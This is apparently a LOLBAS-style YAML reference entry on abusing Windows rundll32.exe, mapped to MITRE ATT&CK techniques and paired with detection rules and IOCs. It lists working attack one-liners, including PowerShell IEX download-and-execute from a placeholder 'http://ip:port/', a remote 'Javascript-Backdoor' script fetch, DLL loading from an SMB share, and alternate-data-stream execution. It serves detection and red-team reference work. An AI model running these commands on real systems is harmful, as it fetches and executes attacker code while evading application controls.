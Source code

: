 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe AllTheThingsx64,EntryPoint
    Description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
    Usecase: Execute dll file
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
    Description: Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
    Description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload.  Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10 (and likely previous versions)
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/network_connection/sysmon_rundll32_net_connections.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml
  - IOC: Outbount Internet/network connections made from rundll32
  - IOC: Suspicious use of cmdline flags such as -sta
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
  - Link: https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90
  - Link: https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Sailay
    Handle: '@404death'
  - Person: Martin Ingesen
    Handle: '@Mrtn9'
---
```

